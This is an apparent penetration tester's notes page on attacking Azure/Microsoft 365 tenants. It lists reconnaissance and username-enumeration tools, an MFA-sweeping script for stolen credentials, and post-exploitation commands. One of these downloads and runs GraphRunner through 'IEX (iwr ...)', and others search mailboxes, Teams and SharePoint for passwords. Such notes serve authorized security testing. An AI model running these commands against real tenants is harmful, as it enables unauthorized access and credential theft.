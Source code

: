 ```yaml
---
title: Azure Notes 
weight: 40
menu:
  notes:
    name: Azure Notes
    identifier: notes-cloud-azure-info
    parent: notes-cloud-azure
    weight: 20
---
```



{{< note title="Recon and Enumeration">}}

Get basic information about the domain
```
https://login.microsoftonline.com/getuserrealm.srf?login=example.com&xml=1
```


AAD Internals
```
Get-AADIntLoginInformation -Domain <example.com>
Get-AADIntTenantID -Domain <example.com>
Invoke-AADIntReconAsOutsider -DomainName <example.com>
https://aadinternals.com/osint/
```

Azure Subdomain Enumeration
```
Github https://github.com/yuyudhn/AzSubEnum
python3 azsubenum.py -b domain -p permutations.txt -v
```

Username Enumeration
```
Github: https://github.com/0xZDH/Omnispray
python3 omnispray.py -m o365_enum_office -d example.com -uf ~/Documents/userList.txt
```

Checking Azure MFA (Assuming Credentials are obtained)
```
Github: https://github.com/dafthack/MFASweep
Invoke-MFASweep -Username <Username> -Password <password> -Recon -IncludeADFS

```
{{< /note >}}


{{< note title="Post Exploitation">}}

GraphRunner to enumerate Office Products 
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'
Invoke-SearchTeams -Tokens $tokens -SearchTerm password
Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 50
```
{{< /note >}}


{{< note title="Az and Graph Powershell Modules">}}

Setup Az and Graph Powershell Modules 
```
Install-Module Az
Import-Module Az
Connect-AzAccount

Install-Module Microsoft.Graph
Import-Module Microsoft.Graph
Connect-MgGraph
```
Microsoft Graph Powershell Enumeration
```
#Get user Info
Get-MgUser -UserId <email> | fl
#Get AU Info
Get-MgDirectoryAdministrativeUnit | fl

#Get Roles associated with an AU
$ScopedRoleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId <AU-ID>
Get-MgDirectoryRole -DirectoryRoleId <RoleID> | fl

#Find Users who are members of the Role
foreach ($member in $ScopedRoleMembers) {
    $userId = $member.RoleMemberInfo.Id
    
    if (-not $userId) {
        Write-Output "No user ID available for member with Role ID: $($member.RoleId)"
        continue
    }

    $userDetails = Get-MgUser -UserId $userId
    
    if ($userDetails) {
        Write-Output "User Details: Name - $($userDetails.DisplayName), Email - $($userDetails.Mail), Role ID - $($member.RoleId)"
    } else {
        Write-Output "Failed to retrieve details for user ID: $userId"
    }
}

#Checking Members of the AU
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId <AU-ID>
```


{{< /note >}}


